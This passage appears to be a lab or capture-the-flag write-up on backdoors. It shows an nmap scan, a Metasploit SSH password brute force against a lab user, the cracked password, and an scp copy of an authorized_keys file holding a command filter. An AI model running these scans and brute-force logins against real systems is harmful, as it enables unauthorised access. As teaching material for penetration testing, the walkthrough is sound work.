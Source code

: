 # Backdoors

## Simple backdoor

### Blackbox testing

While attached to the "inet" network, we scan for possible targets.

```shell
nmap -p0- -v -A -T4 -Pn 192.168.2.1,11
```

We see that the host at 192.168.2.11 (admin-server) has an open TCP port 22 with an SSH service running on it. If we try to connect to it we get

```shell
*****************************************************************
* Only the user cabackup can login without a rsa key            *
....
```

We can therefore try a dictionary bruteforce attack using a tool like metasploit. We get a wordlist (for example the [1000 most common passwords list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt)) and use the metasploit module `auxiliary/scanner/ssh/ssh_login`

```shell
msfconsole
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME cabackup
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOST 192.168.2.11
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE 10-million-password-list-top-1000.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

The attack succeeds - the password for the user `cabackup` is `password`

We can the connect to the server via SSH.

We find a key which allows us to connect to the ca server. Unfortunately, we are informed by a "README" file that this key is limited to only transferring files via `scp` and executing "a backup script" as the user "laurin".

Such restrictions can usually be found in the file ".ssh/authorized_keys". We can transfer the file to inspect it with 

```shell
scp -i .ssh/caserver laurin@192.168.1.21:.ssh/authorized_keys ./
```

From the received file, we see that the commands are filtered using a script

```shell
...
command="/home/laurin/.ssh/allowed-commands.sh $SSH_ORIGINAL_COMMAND"
...
```

